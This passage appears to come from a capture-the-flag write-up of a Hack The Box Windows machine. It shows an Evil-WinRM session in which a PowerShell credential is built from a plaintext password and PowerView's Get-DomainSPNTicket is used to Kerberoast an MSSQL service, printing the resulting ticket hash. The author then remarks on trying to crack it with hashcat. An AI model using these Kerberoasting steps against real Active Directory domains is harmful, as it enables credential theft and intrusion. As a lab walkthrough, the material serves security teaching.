The error message is about the credentials being invalid. I’ll create a credential object:

```
*Evil-WinRM* PS C:\programdata> $pass = ConvertTo-SecureString '0xdf0xdf!' -AsPlainText -Force 
*Evil-WinRM* PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential('object.local\smith', $pass)
*Evil-WinRM* PS C:\programdata> Get-DomainSPNTicket -SPN "MSSQLSvc/object.local:1433" -Credential $Cred
Warning: [Invoke-UserImpersonation] powershell.exe is not currently in a single-threaded apartment state, token impersonation may not work.
Warning: [Invoke-UserImpersonation] Executing LogonUser() with user: object.local\smith

SamAccountName       : UNKNOWN
DistinguishedName    : UNKNOWN
ServicePrincipalName : MSSQLSvc/object.local:1433
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*UNKNOWN$UNKNOWN$MSSQLSvc/object.local:1433*$DAECA7C0ACC55F14934E5E8A382F7AD6$FB41B91C34D8B1139FD30A93B7C0534D7767606C940A162D6A08BD7A84C604FC6757E2EFB5CCEAC9B6B87052440E82F0A111663EE2E9153746E5C13296E39D2788BE41F4
81F2F2594F3D90011C2BDEFFC704613ACA9B3684A9F96B352E6DD0B0B0009C294DA4E8203AA43C0221F3263115899E7B77989CEF394E9402AA96BF768D515210FCEA3D4FFA7134D8F3B2D0C867C2C63B20164C01D78A607B5249A79CAAA334AF80BD5B0D21DA948440BF0E0BB68E4AE791
8DDAF8C860AC86EA7C21E95F29ACB53397C9F5F24A223ACEE9DCE22E255CEF0D7CB67E0F421A50D1F204ACC038D85D15716B33F0EB2B23E7A039ECAA67F4EA9327860970AD417406941EB771DB2B564096336524650D6C0D6EB1CA6BF108C339DDB9FA38DB0587F7EFBAEE98A3FE3449DB
4DA81E59224EA0467B4DC2F2576846DDEF787E3D7BA1C213D3248B7D5D5227E00E8CA6B480227CD69DDFD7ACC05FD2F907DA6B5BABF60D630BA12679323E02E541FF81B2522A8536BE1F534640AF12C1EADE7026859C82366915C64D45BB855432BD7E72EC1AA53B91D7A6D24E609694C2
5EA1D37AA66E5E92BE8BF9F6D1DC5E728E70F2295CDBBB2AA7651F2C2615D0ED861D8763F86F9FD5A5F5FB814F0914BC5A2185FD42A753905E28ABDA1DBD891F006C4217D412C1ACBF524B752D395C2055B6814526DF022A600A949779A98D61F80B774425F5D3D28D07F00863D71E5495
6F68353AA2102681E6931AF8CC09F18E20F3DEBABEE639F578850D0B6D9BD4FCE3CD0DA084AAA4A1805C0E4F012FEB64BB5AB86C748FAD3DDB2ED466C4FCB075C24C2C0B56A728BB65ADBE0F2013B45C79D9C515E3F418B7B7DBCE8B34AF370427670AB12EF1A6B67CFF93B07FD21B9A61
3D0BA3E034ACA27D2AB139F648A8AA1DAA3F3FD66EA26021855B55ADB32273B3C7D241BAFBE4E12A5F30AF5AB2EF8C4A141A41D27D567C9AFE0A1D2DB17E0BA357E13064D94E077F849D6E66ADD66F4015BE57C9FBF99E79C68ED18DC1F5916044F7ECF984F8397CF65C69776D8E432F4F
498B323AF1963081EE28C561BBF305D6FA9593813D3A9EFC24671C9540DE1CB7006FBB36847A987EFBDD754517BEE81D8322DC5F2C529C610591D1DE053D72F79A29506725C90C9369FB285A8C2D30090A403C6906FE0C61F3E31C397A3B03768B1061C3B7E69CFDA329F4CB3EA8286A66
1EC9CFF04C29F9BBC311AC53776C265C9DFEEDB85C4ECD5DC0DDEE64C87E9045A7632A792861B687F6358E138D11676BBFD2783D644B24837659B6F96F93AF529AFC43C32943583E4593B9BEA76B6778134C55B1EB3101CE390F3E9A494BDC927BA5FF2EF20720012FCF4270A8B1BFFA2A
1012D7C4CACB77AE9B8DE19C8671CB09DB0F15FA008658D9669553F3C5AB3C303694D23A0F409F72DF95336F9ED8898A66289FC15AAF0B9DF0432D69FAA156BF54BBEF237DFCF0139850C5C8896C65A6DA6A4A9712A6D21F2A883EF6F25D460E
Warning: [Invoke-RevertToSelf] Reverting token impersonation and closing LogonUser() token handle

```

I can try to crack that with `hashcat`, but as the password is not in a standard wordlist like `rockyou.txt`, it won’t crack without some extra effort beyond what is needed for HTB machines.

### Password Change Fail
